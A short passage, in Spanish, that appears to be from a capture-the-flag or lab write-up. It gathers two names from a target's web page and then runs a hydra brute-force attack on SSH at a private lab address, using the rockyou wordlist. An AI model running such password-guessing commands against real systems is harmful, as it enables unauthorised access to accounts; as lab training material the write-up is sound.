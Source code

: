 ![servicio_web](images/servicio_web.png)
![osint_servicio_web](images/osint_servicio_web.png)

Pese a que la informacion de la pagina es muy plana y al parecer netamente informativa, se obtienen 2 nombres, que probablemente esten asociados con informacion de la maquina, por lo tanto se procede a realizar un ataque de fuerza bruta, al servicio SSH activo en el puerto 22.
```bash
hydra -l carlota -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.3 -t 10 
```

![hydra](images/hydra.png)
